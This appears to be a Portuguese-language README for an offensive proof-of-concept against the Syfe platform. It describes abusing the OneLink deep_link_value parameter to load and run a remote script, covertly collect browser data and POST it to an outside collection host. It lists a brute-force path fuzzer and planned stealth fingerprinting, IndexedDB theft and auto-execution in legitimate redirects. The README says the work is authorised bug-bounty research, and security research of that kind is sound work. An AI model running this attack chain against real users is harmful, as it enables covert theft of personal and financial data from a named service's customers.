 # syfe-poc-bypass

> Proof-of-Concept para exploração remota na plataforma [Syfe](https://www.syfe.com), com foco em redirecionamento controlado via OneLink (AppsFlyer), coleta furtiva de dados e possível bypass de CSP.

---

## 🧪 Objetivo

Demonstrar como o endpoint `syfe.onelink.me` pode ser utilizado como vetor de redirecionamento e execução remota de scripts, incluindo exfiltração de dados sensíveis do navegador em contexto de usuário.

---

## 📌 Ponto de Entrada

Utilizando o `deep_link_value` do OneLink:

https://syfe.onelink.me/test?pid=facebook&deep_link_value=https://cdn.jsdelivr.net/gh/SEU_USUARIO/syfe-poc-bypass@main/hijack.js

yaml
Copiar
Editar

Ao ser carregado pelo OneLink, o navegador interpreta e executa o script remoto que coleta dados do usuário e os envia para o servidor controlado pelo pesquisador.

---

## 📁 Arquivos

- `hijack.js`: script principal de coleta furtiva.
- `exfiltration/stealth-collector.js`: versão estendida (a ser implementada) com coleta de IndexedDB, rede e fingerprint.
- `onelink/fuzz_onelink.py`: script para brute-force de caminhos válidos no domínio `syfe.onelink.me`.
- `proof/`: evidências da execução remota (como GIFs ou HAR).

---

## 🔒 Considerações de Segurança

Este repositório é de uso **exclusivamente educacional e ético**. Toda exploração foi realizada no contexto de programas de Bug Bounty com permissão explícita (neste caso, Syfe via HackerOne).

---

## 📤 Endereço de coleta

Todos os dados coletados são enviados via `fetch` para:

https://premiumvalue.store/poc

yaml
Copiar
Editar

Esse endpoint está sob controle do pesquisador e processa as requisições via `POST` com `Content-Type: application/json`.

---

## 💡 Próximos passos

- [ ] Incluir coleta de `IndexedDB`
- [ ] Implementar fingerprint completo (Canvas, WebGL, Plugins, Fonts)
- [ ] Adicionar autoexecução em redirecionamentos legítimos
- [ ] Explorar subrotas autenticadas após redirecionamento
